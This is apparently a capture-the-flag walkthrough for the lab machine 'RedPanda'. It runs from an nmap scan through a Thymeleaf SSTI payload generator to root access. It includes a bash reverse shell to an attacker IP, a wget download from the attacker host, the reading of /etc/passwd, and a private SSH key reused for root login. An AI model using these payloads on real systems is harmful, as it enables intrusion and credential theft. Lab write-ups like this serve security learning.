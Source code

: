 ![RedPanda.PNG](/assets/RedPanda/RedPanda.png)

1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.11.170
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.11.170
```

**Output**
```bash
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

3. Visit the page
   
![Page.PNG](/assets/RedPanda/Page.PNG)


4. In this machine we can exploit ssti (https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)


5. With the next script on Python we can get information about the machine.

```python
def injection(comm):
    cmd = comm
    build = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime>
    first_ascii = str(ord(comm[0]))
    build += ".exec(T(java.lang.Character).toString(" + first_ascii + ")"
    comm = comm[1:]

    for letter in comm:
        letter_ascii = str(ord(letter))
        build += ".concat(T(java.lang.Character).toString(" + letter_ascii +>

    build += ").getInputStream())}"
    return build


if __name__ == "__main__":
    user_input = input("To convert: ")
    print(injection(user_input))
```

6. Put the command you can run and search in the **RedPanda**
   
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Easy/RedPanda]
└─| python3 convert_to_java.py 
To convert: cat /etc/passwd
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

Next, search and look

![Example.PNG](/assets/RedPanda/Example.PNG)

7. Now, download on the machine a revese shell to next execute and obtaine a reverse shell.

7.1 Create reverse shell on https://www.revshells.com/ and put into a file
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Easy/RedPanda]
└─| cat reverse.sh 
#!/bin/bash
sh -i >& /dev/tcp/10.10.15.6/4949 0>&1
```
---
7.2 Use python to create a server and use wget to download *reverse.sh** on machine
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Easy/RedPanda]
└─| python3 convert_to_java.py 
To convert: wget http://10.10.15.6:4545/reverse.sh
```
> Put the output on **RedPanda search** 
---
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Easy/RedPanda]
└─| python3 convert_to_java.py 
To convert: chmod u+x reverse.sh
```
> Put the output on **RedPanda search** 
---
Listen in port of you create a reverse shell
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Easy/RedPanda]
└─| nc -lvnp 4949
```

---
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Easy/RedPanda]
└─| python3 convert_to_java.py 
To convert: chmod u+x reverse.sh
```
> Put the output on **RedPanda search** 
---
Now, you obtain reverse shell and spawn a shell with python and pty
```bash
┌──(root㉿est)-[/home/kali]
└─| nc -lvnp 4949
listening on [any] 4949 ...
connect to [10.10.15.6] from (UNKNOWN) [10.10.11.170] 52696
sh: 0: can't access tty; job control turned off
$ which python3
/usr/bin/python3
$ which gcc
$ python3 -c "import pty; pty.spawn('/bin/bash')"
```

8. Cat the **user flag**

```bash
woodenk@redpanda:/$ cd home/woodenk/
woodenk@redpanda:~$ cat user.txt 
edcd98fa4b7c41d172093fa042edd753 
```

9. In the next path, cat the file **MainController.java** and search the password

```bash
woodenk@redpanda:/opt/panda_search/src/main/java/com/panda_search/htb/panda_search$ cat MainController.java 
```


![Password](/assets/RedPanda/Password.PNG)

10. Connect to ssh with credentials `woodenk` and `RedPandazRule`
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Easy/RedPanda]
└─| ssh woodenk@10.10.11.170
woodenk@10.10.11.170's password: 
woodenk@redpanda:~$ 
```

11. In the path `/tmp` cat the file gg_creds.xml

```bash
woodenk@redpanda:/tmp$ cat gg_creds.xml
```

**Output**
```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo>
<credits>
  <author>gg</author>
  <image>
    <uri>/img/../../../../../../../tmp/image_exp.jpg</uri>
    <views>2</views>
    <foo>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</foo>
  </image>
  <totalviews>5</totalviews>
</credits>
```


12. Put the openssh key on a file to connect with ssh how root and put 600 permission
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Easy/RedPanda]
└─| cat key                
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----
                                                                             
┌──(root㉿est)-[/home/…/Desktop/Machines/Easy/RedPanda]
└─| chmod 600 key 
```

13. Connect to ssh
```bash
┌──(root㉿est)-[/home/…/Desktop/Machines/Easy/RedPanda]
└─| ssh root@10.10.11.170 -i key
```

**Output**
```bash
root@redpanda:~|
```

14. Cat the **root flag**
```bash
root@redpanda:~| cat root.txt 
f468974d78897cb2dcb169d91e5e2f79
```